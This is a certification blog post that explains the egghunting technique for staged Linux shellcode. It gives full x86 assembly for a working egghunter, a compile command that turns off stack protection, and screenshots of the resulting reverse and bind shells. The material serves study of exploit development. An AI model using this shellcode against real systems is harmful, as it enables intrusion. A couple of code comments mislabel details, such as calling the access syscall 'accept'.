 ```yaml
---
layout: single
title: "SLAE: Staged Shellcode Payload via Egghunting"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-20
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine staged shellcode containing the "Egghunting" technique.

"But Why do we need staged shellcode? Can't we just pwn it!!?"

Sometimes the amount of space in bytes that we have control over initially is too small, so the initial payload simply goes and retrieves the second part of the payload from the attacker, C2 etc.

Egghunting expands on the above by prepending a byte sequence (egg) at the beginning of your final shellcode, so that the "whole egg" can be located in memory and executed.

Contrived example:
   * we place our shellcode with the egg prepended twice in memory
   * We tell the egg hunter to look for our egg, it does this by checking current memory address for our "egg" eg "0x50905090"
   * If not there, move onto next memory address
   * once it is located, make sure there are two instances next to each other (8bytes) to avoid finding your hunter which will obviously contain one instance of our code
   * Once located, jmp to the located shellcode!

In addition to the above, an egghunter must be resilient to errors and take up minimal space.

How can we do this with code?
   * We will need to make use of the access syscall in a loop, to tell whether or not a page of memory is accessible. (access syscall is perfect as it requires only one argument, and simply checks it can access memory, it does not write anything)
   * If the current memory page is not accessible, we move up one memory page, using page_align
   * If the memory IS accessible, we will look for our prepended egg by comparing the pointer with our egg

![access](/assets/images/SLAE_3/1.JPG)

How does page align work?

Consider the below binary values, and remember how the bitwise operand [or](https://en.wikipedia.org/wiki/Bitwise_operation#OR) works.

Any value lower than 4095 will become 4095 when or'ing it, and after we increment by 1 (making it 4096) and or again, we will get 8191. When we increment THAT and or again, we get 12287. This makes perfect sense as we look at the binary values below, keeping or in mind.

>4095  = 0000 ‭1111 1111 1111‬

>4096  = ‭0001 0000 0000 0000‬

>8191  = ‭0001 1111 1111 1111‬

>8192  = ‭0010 0000 0000 0000‬

>12287 = ‭0010 1111 1111 1111‬

How DO we do this with code?
```
global _start			

section .text
_start:
    ; lay our egg
    xor ebx, ebx
    xor ecx, ecx
    mov ebx, 0x50905090 ; value of l337, flipped for little endian
    mul ecx ; this one instruction sets both eax and edx to 0, this is because mul results are stored in EAX and EDX

    ; build page_align
    page_align:
    or dx, 0xfff ; set dx to 4095, 4096 contains nulls!!

    ; build next_addr
    next_addr:
    inc edx ; as explained above, necessary to move forward after or operation, to a multiple of 4096
    pushad ; push all registers onto the stack to preserve them during syscall
    lea ebx, [edx+4] ; point to path being validated
    mov al, 33 ; mov syscall value for accept
    int 0x80
    cmp al, 0xf2 ; after we interrupt, check if the return value that of EFAULT
    popad ; return the registers we preserved earlier
    je page_align ; if EFAULT present jump to page_align
    cmp [edx], ebx ; see if our egg is inside address of edx
    jne next_addr ; egg not inside? jump to address_check, otherwise continue
    cmp [edx+4], ebx ; perform second check to vet out our hunter from result]
    jne next_addr ; second egg not inside? jump to address_check, otherwise execute
    jmp edx ; jump to past where we found the egg and execute code
```
We test out our egg hunter by modifying the c code from our previous assignments, and simply add another variable that contains our egghunter and change the return argument from the shellcode to our egghunter, so the value is stored in memory but never called directly.

Here is a copy of the code, we compile with ```gcc -fno-stack-protector -z execstack shellcode.c -o shell```

As below, testing with shellcode gives us a shell:

![shell1](/assets/images/SLAE_3/2.JPG)

**Something very, very cool about this compiled binary: if we run ``strace`` on it, we can see it smashing through the addresses until it hits our egg, builds our socket, dups the fds and sends the shell!**

We will modify our [previously built](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) shellcode wrapper to allow for [multiple payloads](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_3/egg_wrapper.py), as below we spin up a BIND shell and successfully connect:

![generate_and_compile](/assets/images/SLAE_3/3.JPG)

![connect_to_shell](/assets/images/SLAE_3/4.JPG)

Egg hunt complete!!
